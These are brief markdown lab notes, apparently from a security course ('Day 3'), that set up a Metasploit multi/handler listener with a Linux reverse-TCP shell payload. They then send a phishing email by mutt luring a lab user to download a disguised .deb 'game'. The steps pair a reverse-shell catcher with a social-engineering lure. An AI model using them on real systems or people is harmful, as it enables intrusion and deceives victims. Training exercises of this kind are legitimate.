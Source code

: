 # Day 3

## Using Metasploit

### Startup msfconsole
```
msfconsole -L
```

### Use an exploit
```
use exploit/multi/handler
```

### Set the options
```
set LHOST 127.0.0.1

set LPORT 4444

set PAYLOAD linux/x86/shell/reverse_tcp
```

### Send phishing email
```
echo "Check out this cool game! Download from <a href="http://skillsetlocal.com/moon-buggy.deb">here</a> for FREE." | mutt -e "set content_type=text/html" -s "Game Download" -- admin@skillsetlocal.com
```

### Review phishing email
```
mutt
```